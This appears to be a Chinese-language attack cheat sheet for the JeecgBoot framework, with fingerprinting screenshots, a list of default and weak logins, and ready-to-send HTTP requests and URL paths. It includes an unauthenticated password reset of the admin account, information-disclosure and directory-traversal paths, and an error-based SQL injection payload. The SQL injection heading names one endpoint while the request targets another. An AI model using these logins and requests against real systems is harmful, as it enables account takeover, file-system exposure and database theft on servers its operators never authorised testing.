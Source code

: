 加载动画  
  
![1751074465_685f46a153dfa564857d2.png!small?1751074465213](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lzsgIxl5SSvGeiccQU9JkpgKemicibwNdgEr56jzxxrU2ORWQWS9y55fbZH1xJxywDldhP37kWWc4JQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![1751074352_685f463098ada0ee7f739.png!small?1751074352654](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lzsgIxl5SSvGeiccQU9JkpguDDJZfP4zjE0z4SaBENVPKy9cjWbANTlfPFn3AlVjbCGTA8fhX2QUQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![1751074496_685f46c03fc59e5f87987.png!small?1751074496168](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lzsgIxl5SSvGeiccQU9JkpgYPWRlktjUU1J3E1uibEMf5WeUZUM6CJWQX6eyXkmr1QXWw5PT2Zlglg/640?wx_fmt=jpeg&from=appmsg "")  
  
出现以下这几种情况基本可以确定是jeecg-boot,也可以通过接口或者图标等信息进行判定。  
## 常见弱口令漏洞  
> admin/123456  
> jeecg/123456  
> admn/admin  
> test/test  
> demo/test  
> jeecg/jeecg123456  
> guest/guest  
  
  
![1751076190_685f4d5e730f2eaae1882.png!small?1751076190863](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lzsgIxl5SSvGeiccQU9Jkpgex54C8n4mOPViayxXiaBQfTorWEvdKa9WTllvGGKWw05EV8Svscu098A/640?wx_fmt=jpeg&from=appmsg "")  
## JeecgBoot passwordChange接口任意用户密码重置  

```
GET /jeecg-boot/sys/user/passwordChange?username=admin&password=admin&smscode=&phone= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

  
## jeecg-boot-checkOnlyUser信息泄露漏洞  
> /jeecg-boot/sys/user/querySysUser?username=admin  
>   
> Jeecg-Boot 2.4.5及之前版本存在不安全权限漏洞。攻击者可利用该漏洞通过uri:/sys/user/checkOnlyUser?username=admin提升权限并查看敏感信息。  
  
## jeecg-boot-目录遍历漏洞  
> /jeecg-boot/online/cgform/head/fileTree?_t=1632524014&parentPath=/  
>   
> 低权限账号访问直接返回服务器文件目录信息  
  
## Jeecg-boot 3.4.4 /sys/dict/queryTableData SQL注入  

```
在Jeecg-boot 3.4.4中曾发现分类为致命的漏洞。 此漏洞会影响未知代码文件/sys/dict/queryTableData。 手动调试的不合法输入可导致 SQL注入。
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US) AppleWebKit/525.13 (KHTML, like Gecko) Chrome/0.2.149.29 Safari/525.13
Content-Type: application/json; charset=utf-8
Content-Length: 127
Host: 
Connection: close
Accept-Encoding: gzip, deflate
{&#34;apiSelectId&#34;:&#34;1316997232402231298&#34;,&#34;id&#34;:&#34;1' or '%1%' like (updatexml(0x3a,concat(1,(select md5(123456))),1)) or '%%' like '&#34;}
```
